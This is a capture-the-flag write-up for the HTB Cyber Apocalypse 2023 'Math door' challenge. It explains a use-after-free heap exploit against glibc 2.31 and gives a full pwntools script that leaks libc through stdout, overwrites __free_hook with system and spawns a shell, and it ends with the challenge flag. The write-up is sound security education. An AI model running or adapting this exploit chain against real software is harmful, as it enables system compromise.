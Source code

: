 # Math door - HTB Cyber Apocalypse 2023

## Description
Pandora is making her way through the ancient city, but she finds herself in a room with only locked doors. One of them looks majestic, and it has lots of hieroglyphs written on its surface. After inspecting it, she realizes it's all math: the door presents a problem and she has to solve it to go through to the heart of the ancient city. Will you be able to help her?

## Solution

Checksec:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'.'
```

All protections are enabled on this binary except for fortification.

The bug in this one is a UAF in the delete() function.
```C
void delete(void)

{
  uint uVar1;
  
  puts("Hieroglyph index:");
  uVar1 = read_int();
  if (uVar1 < counter) {
    free(*(void **)(chunks + (ulong)uVar1 * 8));
  }
  else {
    puts("That hieroglyph doens\'t exist.");
  }
  return;
}
```

This only frees the chunk, but keeps the index inside of the list, which allows us to modify the chunk even after it was freed with add.

Add adds the bytes given onto the data that is already present in the chunk.

However no function exists to print the contents of a chunk, therefore we will have to find another way to get a leak.

Since this is libc 2.31, no heap pointer mangling is present and we can therefore just modify the pointers inside of a chunk. This is about as good as a leak is, but not entirely. So we'll need to create a leak primitive ourselves.

To create a leak primitive we first need a libc pointer. However the program only allows us to allocate chunks of size 0x18, which means we can't just allocate a chunk which goes into the unsorted bin.

The solution to this problem is the following:
1. Create 3 chunks
2. Delete the 2 first chunks
3. Point chunk 2's free pointer at chunk 3's size
4. Reallocate the 2 chunks. Chunk 5 now overlaps with chunk 2's size
5. Add to chunk 5, overwriting chunk 2's size with 0x421
6. Allocate enough chunks to realign chunk 2 with the rest of the heap
7. Free chunk 2

This will make GLIBC think that it has freed an unsorted bin and provide us with a libc pointer on the heap.

Next, we can free four other chunks and point the 3rd one to the newly created libc pointer. Then allocate three chunks again. The 4th chunk allocated will be inside libc.

As we can modify the libc pointer with add, we can basically just point inside anywhere we want in libc. I decided to first allocate 2 chunks inside of the FILE pointer stdout, so that it leaks libc data, next time a function which uses stdout is called.

Once the leak is received, we can allocate a chunk inside __free_hook and point it at system. Then free a chunk containing the string "/bin/sh" to spawn a shell.

Here is the exploit which does exactly this:

```py
from pwn import *

context.binary = "./math-door"

io = remote("104.248.169.175",31001)

def create():
    io.recvuntil(b'Action:')
    io.sendline(b'1')
    io.recvuntil(b'Hieroglyph created with index ')
    return int(io.recvuntil(b'.')[:-1])

def delete(idx):
    io.recvuntil(b'Action:')
    io.sendline(b'2')
    io.recvuntil(b'Hieroglyph index:')
    io.sendline(f"{idx}".encode())
def add(idx,data):
    io.recvuntil(b'Action:')
    io.sendline(b'3')
    io.recvuntil(b'Hieroglyph index:')
    io.sendline(f"{idx}".encode())
    io.recvuntil(b'Value to add to hieroglyph:')
    io.send(data)
    
    
# Overlap chunks to overwrite the size of the next chunk
create()
create()
create()
delete(0)
delete(1)
add(1,p8(0x30))
create()
create()
add(4,p64(0x0)+p64(0x421))

# Allocate enough chunks for the new unsorted bin to be a valid chunk
for i in range(5,40):
    create()

#Free the newly created big chunk to get a libc pointer 
delete(2)

#Free some chunks to get pointers we can modify
delete(7)
delete(8)
delete(9)
delete(10)
#Point chunk 9's free pointer to our libc pointers
add(9,p64(unsigned(-0x80)))
#Point our libc pointer at __IO_2_1_stdout-0x10
add(4,b'A'*16+p64(0xab0))

#Create 3 chunks so the next chunk we allocate will be inside of stdout
create()
create()
create()

#Get the index of chunk inside stdout
last_idx = create()

#Turn the flags variable in stdout to 0xfbad1800
add(last_idx,b'\x00'*16+p64(unsigned(-0x1087)))

#Point our libc pointer a bit further down so we can allocate a chunk
#on top of _IO_write_base
add(4,b'\x00'*16+p64(0x20))

#Free more chunks so we can point it at our libc pointer
delete(11)
delete(12)
delete(13)
delete(14)

#Point chunk 13 at our libc pointer
add(13,p64(unsigned(-0x100)))
#Create 3 chunks so the next chunk we allocate will be on top of _IO_write_base
create()
create()
create()

#Get the index of the chink which can overwrite write_base
last_idx = create()

#Point write_base 0x100 further down. This will now cause a leak when calling puts next
add(last_idx,b'\x00'*16+p64(unsigned(-0x100)))
io.recv(5)
# Receive our leak
leak = u64(io.recv(8))

#Calc libc base
libc_base = leak-0x1ed6a0
free_hook = libc_base+0x1eee48
system = libc_base+0x52290
log.info(f"LIBC BASE: {libc_base:#x}")

#Free more chunks so we can point at __free_hook
delete(15)
delete(16)
delete(17)
delete(18)
add(17,p64(0x10))
#Point chunk 16 at free hook
add(16,b'A'*16+p64(free_hook-8))

#Allocate the chunks untill our free_hook pointer
create()
create()
create()

#Allocate the free_hook pointer and set it to system
last_idx = create()
add(last_idx,b'A'*8+p64(system))

#Put /bin/sh inside of chunk 19
add(19,b'/bin/sh\x00')

#Trigger free_hook with /bin/sh
delete(19)


io.interactive()
```

## Flag
`HTB{y0ur_m4th_1s_fr0m_4n0th3r_w0rld!}`

